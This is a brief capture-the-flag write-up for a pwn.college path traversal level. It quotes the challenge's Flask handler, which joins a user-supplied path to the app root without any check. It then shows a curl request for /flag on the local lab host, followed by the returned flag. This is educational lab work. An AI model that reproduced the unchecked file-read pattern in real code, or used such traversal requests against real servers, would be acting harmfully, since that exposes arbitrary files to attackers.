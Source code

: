 # Level 1

we are given with a task to `Exploit a path traversal vulnerability`

they provided a remote desktop which we can ssh or we can use the web interface to interact. I used the web interface to interact with the machine 🦥i'm lazy here.

they also provided us with challenge source code which is in `python` 🐍 `flask`

```python copy
def level1():
    path = request.args.get("path")
    assert path, "Missing `path` argument"
    return (pathlib.Path(app.root_path) / path).read_text()
```
This is pretty obvious that it contains a path traversal vulnerability.

looking into the code we can see that it takes the `path` argument from the request and reads the file and returns the content of the file.
```python {2,4}
def level1():
    path = request.args.get("path")
    assert path, "Missing `path` argument"
    return (pathlib.Path(app.root_path) / path).read_text()
```

so we can read any file in the system by passing the path as an argument to the request.

```bash
hacker@web-security-level-1:~$ curl http://challenge.localhost:80/?path=/flag
pwn.college{A5rihYYnOZZceMPaZKza3U2-yjL.ddDOzMDL0IzMyMzW}

```